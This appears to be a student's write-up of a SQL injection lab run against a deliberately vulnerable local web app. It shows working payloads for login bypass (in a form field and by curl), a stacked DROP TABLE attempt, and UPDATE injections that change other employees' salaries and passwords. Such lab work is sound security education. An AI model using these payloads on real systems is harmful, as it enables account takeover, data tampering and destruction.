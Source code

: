# SQL Injection Attack Lab
## Setup 
It was made available to us a webapp with a MySQL database. The goal of this lab is to explore SQL Injection vulnerabilities. To start we have to modify our /etc/hosts file so that the IP address of the container contains an IP and url that we want. To do this we edit the file with the following command:
```bash
$ sudo nano /etc/hosts
```
And we add the following line to the file:
```bash
10.9.0.5        www.seed-server.com
```

This way our file knows where the server is located.

After we build the container, we can run the following command to start the server:
```bash
$ dockup
```
Now, our server is running and using 'dockps' we find the id of the container. To enter the container's shell we use the 'docksh' command followed by the container's id:

![docksh](../docs/week8/docksh.png)

 In the webapp there are two roles:
 - Admin: has access to all accounts
 - Employee: has access only to his account

## MySql
To see what is in the database, we use the following commands, while we are in the container's shell:
```bash
```bash
 $ mysql -u root -pdees
```
![mysql](../docs/week8/mysql.png)

## Attacks using SELECT
### First attack: Login as admin without password
 For this attack, we have to login as admin without password. To do this, we use the following input:

![adminpass](../docs/week8/adminpass.png)
This input makes the server execute the following command:
```sql
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name='admin' # and Password='$hashed_pwd'
```
The part of the query that would ask for the password is commented out, so it is not executed. Thus, the server returns us the admin account information.
![adminpass2](../docs/week8/adminpass2.png)

### Second attack: Login as admin through terminal

Let's perform an attack through an HTTP GET request. An example of an HTTP GET request is the following:
```bash
curl "www.seed-server.com/unsafe_home.php?username=alice&Password=12345"
```
For this attack we will use the same input that we used in the previous attack, using %27 instead of apostrophes and %23 instead of '#'. Thus, our HTTP GET request is as follows:
```bash
curl "www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```
We obtained the html with the admin account information:
![adminpass3](../docs/week8/adminpass3.png)

### Third attack: Join a new SQL statement
We can join a new SQL statement at the end of the input using ";". With this, we can cause unwanted effects on the server. For example, we can delete the credential table with the following input:
```sql
admin'; DROP TABLE credential; #
```
However, we receive an error message, since the server does not allow the execution of more than one query at a time:
![adminpass4](../docs/week8/adminpass4.png)

## Attacks using UPDATE
### First attack: change our salary
If we login as an employee, we can access a page that allows us to change our personal data. Since the input in these fields is not sanitized, we can change our own salary with the following input:
```sql
912345678', Salary='9999999
```
With this input, the server executes the following command:
```sql 
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='9999999'
WHERE id = $id
```
This way, the salary was changed to the expected:

![update](../docs/week8/update.png)

### Seccond attack: change another employee's salary
To alter the salary of another employee, we use the same technique as in the last attack, but the WHERE will be placed manually by us and we will comment the original WHERE of the statement. Thus, our input is as follows:
```sql
912345678', Salary='1' WHERE name='Boby' #
```
The server executes the following command:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='1' WHERE name='Boby' # WHERE id = $id
```
As we can see, we changed Boby's salary to 1:
![update2](../docs/week8/update2.png)

### Third attack: change another employee's password
The technique to change the password will be the same as the previous attack, only the password we will put will have to be already converted to SHA1, we will change the password to 'password'. Our input is as follows:
```sql
912345678', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' #
```
The server executes the following command:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' # WHERE id = $id
```
As we can see, Boby's password was changed to 'password' and we can enter his account with that password:

![update3](../docs/week8/update3.png)

